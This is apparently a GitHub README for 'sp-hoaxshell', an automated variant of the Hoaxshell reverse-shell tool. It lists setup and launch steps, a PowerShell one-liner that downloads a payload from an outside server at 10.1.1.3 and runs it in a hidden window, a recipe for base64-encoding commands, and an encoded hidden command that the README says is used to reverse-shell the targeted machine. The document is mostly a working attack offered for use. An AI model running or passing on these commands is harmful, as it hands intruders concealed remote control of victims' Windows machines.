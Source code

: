 <img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Hoax.png" width="500">

# sp-hoaxshell

Copy of the real Hoaxshell (https://github.com/t3l3machus/hoaxshell) with modifications to automate everything

## Installation + configuration before the start
```
git clone https://github.com/t3l3machus/hoaxshell.git
rm ./hoaxshell/hoaxshell.py
git clone https://github.com/SentinelSamuel/sp-hoaxshell.git
mv ./sp-hoaxshell/hoaxshell.py ./hoaxshell
mv ./sp-hoaxshell/sp-hoax/ ./
sudo rm -rf ./sp-hoaxshell
pip3 install -r ./hoaxshell/requirements.txt
sudo chmod +x ./hoaxshell/hoaxshell.py
cd sp-hoax/
```

### 1) Start Python server
```
# maybe a sudo before ?
bash python-server-1.sh
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture2.png" width="500">

### 2) Start hoaxshell
```
# IN ANOTHER BASH PROMPT
# maybe a sudo before ?
bash hoaxshell-2.sh  
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture3.png" width="500">

### 3) Make the info file correct
```
# IN ANOTHER BASH PROMPT
# maybe a sudo before ?
pwsh info-3.ps1
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture4.png" width="500">

## Some infos :
```
# Not encoded :
$e=Invoke-RestMethod -Uri "http://10.1.1.3:70/sp-hoax/info"; powershell -WindowStyle hidden -e $e
```
```
# Encoded with this :
$text='<Your commands>'
$encoded=[convert]::ToBase64String([Text.Encoding]::Unicode.getBytes($text))
$encoded
```
```
# Encoded & used in the scripts to reverse-shell the targeted machine
powershell -WindowStyle hidden -e "JABlAD0ASQBuAHYAbwBrAGUALQBSAGUAcwB0AE0AZQB0AGgAbwBkACAALQBVAHIAaQAgACIAaAB0AHQAcAA6AC8ALwAxADAALgAxAC4AMQAuADMAOgA3ADAALwBzAHAALQBoAG8AYQB4AC8AaQBuAGYAbwAiADsAIABwAG8AdwBlAHIAcwBoAGUAbABsACAALQBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAIABoAGkAZABkAGUAbgAgAC0AZQAgACQAZQA="
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture5.png" width="500">
